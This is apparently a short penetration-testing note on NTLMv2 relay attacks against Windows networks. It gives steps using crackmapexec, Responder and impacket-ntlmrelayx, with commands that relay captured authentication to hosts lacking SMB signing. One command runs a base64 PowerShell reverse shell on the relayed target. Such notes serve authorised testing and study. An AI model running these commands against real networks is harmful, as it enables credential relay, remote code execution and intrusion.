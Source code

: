 


Ntlmv2 has a challenge/response component to it, so each hash is unique and cannot be used in pass-the-hash.  
Ntlmv2 can however be used in relay, but you’ll have to set up a proper relay and capture it again. 

#### steps 
1) Use crackmapexec‘s genrelay flag to get a list of all hosts that don’t enforce SMB signing - it’ll output a targets list.

2) Run ntlmrelayx with the target file from above. You may wish to also run it with socks and smb2support flags.

3) Config responder to disable HTTP and SMB since ntlmrelayx will be running (if you did not use `--no-http-server` in ntlmrelayx)

4) run responder.


```shell
#  we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).
cat /etc/responder/Responder.conf | grep 'SMB ='

responder -I <interface name>

impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <poweshell base64 reverse shell>'

```

